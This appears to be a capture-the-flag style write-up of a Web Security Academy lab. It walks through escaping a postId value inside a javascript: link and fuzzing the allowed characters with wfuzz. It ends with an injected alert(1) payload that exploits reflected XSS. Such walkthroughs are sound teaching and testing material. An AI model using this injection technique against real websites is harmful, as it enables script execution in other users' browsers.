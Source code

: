 In this case, if we go to a post and inspect the source code, if we search by "script" we found the following line:

```html
<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d3'}).finally(_ => window.location = '/')">Back to Blog</a>
```

Url decode:
```html
<a href="javascript:fetch('/analytics', {method:'post',body:'/post?postId=3'}).finally(_ => window.location = '/')">BacktoBlog</a>
```

In this case when you click in `BackToBlog` link to do a post request to /analytics and sending this data: `/post?postId=3`, we can control the postId in the url.

We can try to escape to inject more js code, but if you add a single quote (') you see an error: 'Invalid blog post ID'

```html
<a href="javascript:fetch('/analytics', {method:'post',body:'/post?postId=3''}).finally(_ => window.location = '/')">BacktoBlog</a>
```

Mmm, if we inspect the code, we see that **fetch is receiving two parameters**, analytics and {method...}, but if we add another one? javascript has to evaluate even if it is not used. 

```html
<a href="javascript:fetch('/analytics', {method:'post',body:'/post?postId=3'},{x:''}).finally(_ => window.location = '/')">BacktoBlog</a>
```

In the code above, we close the object and add a new paramenter that is a new object `x:''`, we add a object because we have to close successfully the remaining part: `})`.

```js
3'},{x:''
```

You obtain the same, invalid blog post ID.

Mmm it seems to be that the backend only expects numbers, but we can see if the number is part of some string more bigger, we can try to do a little fuzz to test if some character is valid to concadenate the string.

```bash
wfuzz -c -w /usr/share/wordlists/seclists/Fuzzing/special-chars.txt 'https://0a4c003b04e383ba80740df8004d0053.web-security-academy.net/post?postId=5FUZZ%27},{x:%27'
```

And we obtain a **200** response with two characters, **&** and **#**.

If we add the hashtag and do hovering on back to blog we see that the new string doesn't appear, this is because the browser interpretate like fragment.

Now if we add the ampersand and do hovering we see that the new string appear.

We can aggregate another parameter that allow us to trigger an alert.

```html
<a href="javascript:fetch('/analytics', {method:'post',body:'/post?postId=3'},alert(1),{x:''}).finally(_ => window.location = '/')">BacktoBlog</a>
```
